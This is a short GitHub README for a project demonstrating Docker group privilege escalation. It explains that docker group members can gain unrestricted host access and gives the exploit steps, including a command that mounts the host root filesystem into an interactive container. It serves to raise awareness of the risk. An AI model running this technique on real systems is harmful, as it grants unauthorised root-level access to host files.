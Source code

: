# Docker Privilege Escalation
This project helps to evaluate how docker group access could exploited to gain unrestricted file access of the host machine.

As per Docker, to use docker command either a user needs to be a sudo group member or should have access to docker group.

When a system trusts a user with sudo membership, it assumes the fact that the user has administrative privileges.
However, the same notion is not been yet shared with most developers that the user within a docker group could access the unrestricted paths and files on the host machine from the container spawned by his privileges.

```
git clone https://github.com/jigerjain/Docker_Privesc.git
cd Docker_Privesc/
docker build -t application .
./exploit.sh

Running docker
You could access the root folder of the system machine under /Hostroot folder

```

## Command
docker build would create an image "application" from the configuration file "Dockerfile"

## Insight
exploit.sh file contains a docker command which would mount the path "/" to the folder "/Hostroot/" on the running container; -i flag would help to gain an interactive access to the spawned container.
```
docker run -v /:/Hostroot -it application
```





